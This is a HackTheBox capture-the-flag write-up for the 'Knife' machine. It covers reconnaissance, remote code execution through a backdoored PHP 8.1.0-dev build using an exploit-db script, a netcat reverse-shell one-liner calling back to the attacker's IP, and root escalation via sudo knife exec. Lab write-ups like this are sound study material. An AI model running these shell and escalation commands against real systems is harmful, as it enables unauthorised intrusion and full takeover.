 ```yaml
---
title: HackTheBox[KNIFE]
author: Anurag M
date: 2021-08-28 14:30:00 +0800
categories: [HackTheBox]
tags: [ "hackthebox", "sudo", "knife", "php" ]
cover : "https://imgur.com/h7ArCGl"
useRelativeCover : true
---
```

## About The Room

| Machine | Difficulty | Creator |
|---------|------------|---------|
| [Knife](https://www.hackthebox.eu/home/machines/profile/347) | Easy | [MrKN16H7](https://www.hackthebox.eu/home/users/profile/98767) |

## Reconnaissance
### Nmap
```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/HTB/LAB/knife]
└──╼ $nmap -A -v 10.10.10.242                                                                           
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
From the Nmap scan, we can see that 2 ports are open. Port 22 and 80, which are standard SSH, HTTP ports respectively. Port 22 ie, SSH port needs a username and password, we do not have that (assuming brute force is not an option).
Port 80 is for web applications. We can find something interesting in port 80, HTTP methods.
You can read more about OPTIONS method [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/OPTIONS)

Since this is related to HTTP methods, we can use the `curl` command-line program to issue an OPTION request.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/HTB/LAB/knife]
└──╼ $curl -X OPTIONS http://10.10.10.242 -i
HTTP/1.1 200 OK
Date: Mon, 24 May 2021 00:20:43 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8
```
We have an interesting information for `X-Powered-By`

`X-Powered-By: PHP/8.1.0-dev`

We have an impressive PHP bug, a quick reserch on google, we could find that it is vulnerable to Remote Code Execution. The exploit is availble in [exploit db](https://www.exploit-db.com/).

Download the [Exploit](https://www.exploit-db.com/exploits/49933)

![img](https://imgur.com/wiBiXCz)

## Gaining foothold

Let's use the exploit. It will ask us for the target URL, as we append the target URL in the exploit, we will get shell as user.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/HTB/LAB/knife]
└──╼ $python3 exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ id
uid=1000(james) gid=1000(james) groups=1000(james)
```
We do not have a stable shell. Let's take a reliable reverse shell.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/HTB/LAB/knife]
└──╼ $python3 exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 4444 >/tmp/f
```

Start netcat listener on the specified port, we get a reliable reverse shell. Upgrade to a stable shell.

```bash
┌─[v1nc1d4@V1NC1D4]─[~/Desktop/HTB/LAB/knife]
└──╼ $nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.242] 48310
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("bin/bash")'
james@knife:/$ export TERM=xterm
export TERM=xterm
james@knife:/$ 
```
we can find the user flag under the directory `/home/james`

```bash
james@knife:~$ pwd
pwd
/home/james
james@knife:~$ ls
ls
user.txt
james@knife:~$ 
```

## Privilege Escalation

Let's move forward, checking sudo rights we can find that user `james` is allowed to run /usr/bin/knife as root.
```bash
james@knife:~$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
james@knife:~$ 
```
Let's see what [gtfobins](https://gtfobins.github.io) have to say about `knife`

![img](https://imgur.com/oi5WKOu)

Let's get the root shell

```bash
james@knife:~$ sudo /usr/bin/knife exec -E 'exec "/bin/sh"'                               
sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
# id
id
uid=0(root) gid=0(root) groups=0(root)
# 
```
Root flag can be found under the directory `/root`

```bash
# cd /root
cd /root
# ls
ls
delete.sh  root.txt  snap
# 
```

## Resources

| Topic | Url |
|-------|-----|
| HTTP OPTION Methods | [Click here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/OPTIONS) |
| Exploit | [Click here](https://www.exploit-db.com/exploits/49933) |
| GTFOBins | [Click here](https://gtfobins.github.io/gtfobins/knife/#sudo) |
